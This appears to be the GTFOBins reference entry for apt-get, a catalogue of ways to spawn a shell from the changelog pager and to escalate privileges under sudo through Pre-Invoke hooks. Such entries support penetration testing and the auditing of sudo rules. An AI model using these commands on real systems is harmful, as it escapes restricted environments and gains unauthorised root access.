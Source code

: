 # GTFOBin: apt-get

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
apt-get changelog apt
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo apt-get changelog apt
!/bin/sh
```

For this to work the target package (e.g., `sl`) must not be installed.

```
TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
```

When the shell exits the `update` command is actually executed.

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```